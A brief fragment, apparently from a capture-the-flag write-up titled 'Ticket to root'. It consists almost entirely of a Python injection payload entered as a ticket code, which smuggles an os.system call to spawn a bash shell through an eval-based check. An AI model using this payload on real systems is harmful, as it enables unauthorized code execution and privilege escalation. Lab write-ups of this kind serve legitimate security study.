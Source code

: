 # Skytrain Inc   
## Ticket to root  
__Ticket Code:__  
**46 + 1 == 47 and __import__('os').system('/bin/bash') == False
